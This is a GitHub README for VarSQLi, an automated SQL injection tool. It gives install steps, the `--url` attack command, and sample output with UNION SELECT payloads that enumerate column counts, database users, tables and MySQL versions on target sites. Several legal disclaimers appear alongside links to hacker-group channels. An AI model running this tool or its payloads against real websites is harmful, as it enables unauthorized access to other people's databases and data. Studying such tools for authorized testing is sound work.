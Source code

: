 # Variable-SQL-Injection
### Note From VarSQLi
> - _admin_ : [Twitter](https://twitter.com/Anonym0us_VNPC)
> - _Website_ : [Ghost Man](https://ghostmanews.blogspot.com)
> - _facebook_ : [adonis bertha](https://www.facebook.com/francesca.savino.18?mibextid=ZbWKwL)
> - _Github_ : @Phamchie

VarSQLi allows users to search for and exploit SQL injection vulnerabilities automatically. The tool employs techniques such as input string testing, SQL syntax analysis, and SQL statement testing to determine if a system is susceptible to SQL injection.
> warning: the tool will not have a dump database function, for the sake of protecting other people's private information, and absolutely not used for any other bad purpose, especially exploiting government and school sites  learn
### Screenshot
<img src="https://raw.githubusercontent.com/Phamchie/varsqli/VarSQLi/data/Screenshot_2023-08-02-00-24-06-25.jpg">

> However, using VarSQLi or any other database exploitation tool to attack someone else's database is illegal and can have serious consequences. Illegally accessing someone else's database may violate information security regulations and ethical standards in information technology.

Using VarSQLi or any unauthorized database exploitation tool can lead to imprisonment and criminal liability. We must adhere to security regulations and policies, respect privacy rights, and refrain from compromising others' systems and data.

> Instead of relying on database exploitation tools, we should focus on enhancing our knowledge of security, understanding common security vulnerabilities, and implementing security measures to protect our systems and data. Collaborating with security experts and complying with legal regulations will ensure safety and ethical use of information technology

### setup - install tool
To set up VarSQLi, follow these steps:

1. Clone the VarSQLi repository from GitHub using the following command:
- `git clone https://github.com/Phamchie/varsqli`
2. Navigate to the VarSQLi directory:
- `cd varsql`
3. Install the required dependencies by running the setup script:
- `python3 setup.py`
- `python3 varsqli.py --help`
- Full Source Setup
```
git clone https://github.com/Phamchie/varsqli/
cd varsqli
python3 setup.py
python3 varsqli.py --help
```
Once the setup is complete, you can start using VarSQLi to identify and exploit SQL injection vulnerabilities. However, always ensure that you have proper authorization and adhere to legal and ethical guidelines when conducting security assessments.

#### How To Injection - Exploit 
- You can see that in the `--help` section, there is only one mode, `--url` to update the url to attack
```
              ___
 _____         H  _____     _ _  {1.1.5}
|  |  |___ ___[,]|   __|___| |_|
|  |  | .'|  _[(]|__   | . | | | {Pham Chien}
 \___/|__,|_| [)]|_____|_  |_|_|
               V         |_|  ghostmanews.blogspot.com


[+] Remember, using VarSQLi or any similar tool for illegal activities can result in severe legal consequences, including imprisonment. It is crucial to prioritize ethical hacking practices, collaborate with security professionals, and comply with relevant laws and regulations to ensure responsible and lawful use of such tools.

usage: varsqli.py [-h] [--url URL]

VarSQLi - Auto SQL Injection tools

options:
  -h, --help  show this help message and exit
  --url URL   URL Target (ex :
              https://test.com/yourpath_vulnsqli.php?id=1)
```
- To attack the target , you write the command :
-  `python3 varsqli.py --url < url vulerable >`
- the result will be
```
[INFO] Testing connect to target url..
[INFO] Testing IF the target url content is stable
[INFO] Target is the content stable..
[INFO] Testing 'Generic atline queries'..
[INFO] Testing 'UNION SELECT NUMBER COUNT COLUMNS (MySQL Select).'
[INFO] Testing Payload '+AND+0+UNION+SELECT+1,2--+-'
[INFO] Total Response Content HTML stable : 200 OK
[INFO] Testing Payload '+AND+0+UNION+SELECT+1,2,3--+-'
```
<img src="https://raw.githubusercontent.com/Phamchie/varsqli/main/.github/workflows/Screenshot_2023-08-02-14-49-50-36.jpg">

- it is starting to attack, and after a while exploiting with UNION SELECT payloads to get the column number of the website, it will announce like this
- it is the number of columns, payload , target, user , database and the target's MySQL version

<img src="https://raw.githubusercontent.com/Phamchie/varsqli/VarSQLi/.github/workflows/Screenshot_2023-08-02-14-50-17-53.jpg">

- like last version, we don't have the feature to print database name and MySQL user, but i guarantee that the latest update version of too right now will have that feature 😃..
- :)
- and here is the target database of tables and columns that VarSQLI has exploited
<img src="https://raw.githubusercontent.com/Phamchie/varsqli/main/.github/workflows/Screenshot_2023-08-02-14-50-35-49.jpg">

- so we've come to the end, so what's the ending?

# Ending 
A tip and note to use :
- Can you see how dangerous the SQL injection vulnerability is, here is a piece of advice for you, this tool is only for the nature, is to show the database name, and will never provide  dump database for users only, to ensure the security of network security
> Remember, using VarSQLi or any similar tool for illegal activities can result in severe legal consequences, including imprisonment. It is crucial to prioritize ethical hacking practices, collaborate with security professionals, and comply with relevant laws and regulations to ensure responsible and lawful use of such tools.
- Contact : [phamchienlc06@gmail.com](phamchienlc06@gmail.com)
- Telegram Channel : [My Channel](https://t.me/Anon0psNews)
- Telegram : [Adonis Bertha](https://t.me/anonopsvn)
- website : [website](https://ghostmanews.blogspot.com)
